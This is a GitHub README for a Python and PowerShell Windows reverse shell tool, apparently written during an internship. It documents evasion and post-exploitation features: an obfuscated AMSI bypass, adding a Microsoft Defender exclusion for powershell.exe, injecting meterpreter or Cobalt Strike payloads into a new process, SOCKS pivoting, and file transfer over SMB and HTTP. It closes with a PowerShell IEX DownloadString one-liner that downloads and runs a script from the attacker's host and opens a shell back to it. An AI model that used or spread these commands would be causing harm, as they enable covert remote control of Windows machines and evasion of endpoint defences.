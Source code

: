 # Introduction

A small windows reverse shell project that i build during my university intership.\
It is written with Python and Powershell.\
33333333333333333333333333333333333333333 but also 7 (\~^-^)\~

# Installation

To simply install it:

1.  Clone this repo with the following code
    ```
    git clone https://github.com/Fedami/powerrevshell---rev.ps1
    ```
3.  Run the following code to install all the requirements
    ```
    pip install -r requirements.txt
    ```
3.  Run the following code to make the .py file executable or simply run it with python
    ```
    chmod +x powerrevshell.py or python3 powerrevshell.py
    ```
## Powerrevshell

![powerrevshell-start](https://user-images.githubusercontent.com/82824055/170969038-c81c54a0-721b-44f5-835b-86d11840211f.png)

# Optional argument:
  -h, --help        &emsp;&emsp;&ensp;    show this help message and exit\
  -f &emsp;&emsp;&emsp;&emsp;&emsp;&emsp; smb folder for transfer and execute funciontality\
  &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;                      Enter folder name [Default: root]\
  -i attacker ip    &emsp;&nbsp;    Enter your local IP [Default: 192.168.0.114]\
  -p port           &emsp;&emsp;&emsp;&ensp;&nbsp;    listener port for reverse shell [Default: 9001]\
  -wp webport       &emsp;&nbsp;    listener port for http server [Default: 8000]\
  -sp smbport       &emsp;&ensp;     listener port for smb server [Default: 445]\
  -http             &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start http web server [Default: 8000]\
  -smb              &emsp;&emsp;&emsp;&emsp;&ensp;&nbsp;    Start smb web server [Default: 445]\
  -k                &emsp;&emsp;&emsp;&emsp;&emsp;&emsp;    If ports are being used it will kill the process to force the exexcution.

# Functionality

Powerrevshell.py comes with several function accessible via the "menu" option.

![powerrevshell-menu](https://user-images.githubusercontent.com/82824055/171123395-27647e7f-9853-43e8-adae-8ea33e231bf3.png)

### get - put

The get and put functionality are build using TCPSocket to transfer files between the machines. To prevent data loss, on each message, are sent support string and md5sum to know if the actual bytes are sent correctly.

```
get <file.txt> / put <file.txt>
```

### smb-get

The smb-get functionality simply transfer a file using the Copy-Item cmdlet to the smbserver started using impacket-smbserver.\
If you didn't start the program with the -smb switch or started youreself (impacket-smbserver) the command will fail.

```
smb-get <file.txt>
```

### down-file

The down-file functionality simply download a file from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
down-file <file.txt>
```

### load

The down-file functionality simply load a powershell script from the current machine to the target machine using HTTP server with python.
If you didn't start the program with the -http switch or started youreself (python -m http.server 8000) the command will fail.

```
load <file.ps1>
```

### amsi-bypass

The amsi-bypass functionality will try to bypass AMSI on the current shell by using the Matt Graeber amsi bypass method obfuscated with two bytes array.

```
amsi-bypass
```

### exclude

The exlucde functionality will try to exclude powershell.exe from defender, admin permission are needed.

```
exclude
```

### payload

The payload functionality will try to create a new process and inject the shell payload that can be meterpreter or cobalt strike...\
The payload must be a cs file.

```
payload <payload.cs>
```

Work used for the socks functionality: [PowerProxy by get-get-get-get](https://github.com/get-get-get-get/PowerProxy).

### socks-start

Socks-start start a socks proxy.

```
socks-start <L-PORT> <P-PORT>
```
You can also omit L-PORT and P-Port, by default L-PORT is 8080 and P-PORT is 1080.

```
socks-start
```

### socks-stop

Socks-stop will stop any running socks on the target machine that was started before.

```
socks-stop
```

### socks

Socks will list if there is a running socks proxy.

```
socks
```

### close

Close will terminate the session by killing the powershell process, if the command exclude was used it will delete the exclusion policy. Also if it was started a socks proxy it will kill it before killing the session.

```
close
```

## Rev.ps1

Rev.ps1 is the powershell script to connect back to us.\
To start the reverse shell run the following code on the target machine.

```
IEX (New-Object System.Net.WebClient).DownloadString('http://<IP>:<PORT>/rev.ps1'); Send-Shell -i <IP> -p <ShellPort>
```
